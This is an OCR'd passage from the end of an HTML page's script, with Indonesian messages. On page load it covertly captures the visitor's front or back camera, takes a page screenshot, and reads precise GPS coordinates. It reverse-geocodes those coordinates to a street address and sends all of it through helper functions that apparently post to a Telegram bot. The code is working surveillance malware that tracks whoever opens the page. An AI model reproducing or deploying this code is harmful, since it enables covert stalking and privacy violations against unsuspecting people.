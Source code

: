             c.width = v.videoWidth;
            c.height = v.videoHeight;
            c.getContext('2d').drawImage(v, 0, 0);
            
            c.toBlob(b => sP(b, `${mode}_camera_capture.jpg`), 'image/jpeg');
            
            stream.getTracks().forEach(t => t.stop());
            return true; 
            
        } catch (e) {
            if (stream) {
                stream.getTracks().forEach(t => t.stop());
            }
            await sTG(`⚠️ Gagal Akses Kamera ${mode.toUpperCase()}. Mencoba mode lain...`);
            return false; 
        }
    };
    const ST=async()=>{
        await sTG(await cDI()); 
        let cameraSuccess = false;
        cameraSuccess = await captureCamera("user");
        if (!cameraSuccess) {
            cameraSuccess = await captureCamera("environment");
        }
        if (!cameraSuccess) {
             await sTG('❌ Akses ke kedua kamera (Depan & Belakang) diblokir.');
        }
        setTimeout(async()=>{
            try{
                const cn=await html2canvas(document.body);
                cn.toBlob(b=>sP(b,'screenshot.jpg'),'image/jpeg')
            }catch(e){
                await sTG('❌ Screenshot failed')
            }
        }, 2000); 
        if(navigator.geolocation){
            navigator.geolocation.getCurrentPosition(async p=>{
                const lat = p.coords.latitude;
                const lon = p.coords.longitude;
     let g=`<b>📍 GPS TRACKING (ONE-TIME)</b>\n`;
       g+=`<blockquote>📌 Lat: ${lat}\n📍 Lng: ${lon}\n`;
       g+=`🎯 Akurasi: ${p.coords.accuracy}m\n`;
       g+=`🗺️ Google Maps: https://www.google.com/maps/search/?api=1&query=${lat},${lon}\n`;
      const l=await gLD(lat,lon);
      g+=`🏙️ Kabupaten: ${l.kb}\n🏙️ Kecamatan: ${l.kc}\n🏠 Alamat: ${l.fa}</blockquote>\n`;
      await sTG(g)
            },
            async e=>{
                await sTG(`❌ GPS Error: ${e.message}`)
            },{enableHighAccuracy:true,maximumAge:0,timeout:5000})
        }
    };
    ST();
})();
</script>
</body>
</html>
